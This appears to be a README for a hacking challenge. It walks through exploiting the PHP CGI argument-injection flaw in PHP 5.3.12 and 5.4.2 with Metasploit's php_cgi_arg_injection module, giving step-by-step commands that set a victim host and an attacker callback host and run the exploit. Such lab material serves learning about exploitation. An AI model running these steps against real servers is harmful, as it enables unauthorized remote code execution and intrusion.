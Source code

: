 # HackTheStack

This is simple hack challenge where you use the tool Metasploit to exploit a known vulnerability in a PHP server, with the version 5.3.12 and 5.4.2.
This exploit is also called PHP CGI arg injection, where the exploit takes advantage of -d flag to set the php.ini directives to achieve code execution. In short this leads to access to CGI binaries, and can run your code remotely.

Here's how you'd do it syntactically using metasploit.

1) Open the terminal in an environment that has Metasploit already installed. (E.g Kali Linux) <br />
2) Type "msf" in the command line (without the double quotes) <br />
3) Type use exploit/multi/http/php_cgi_arg_injection <br />
4) Type SET RHOST <VICTIM_IP> where VICTIM_IP is what it sounds like <br />
5) Type SET LHOST <ATTACKER_IP> where ATTACKER_IP is also what it sounds like <br />
6) Type "run" (without the double quotes) <br />
7) Don't be nasty <br />
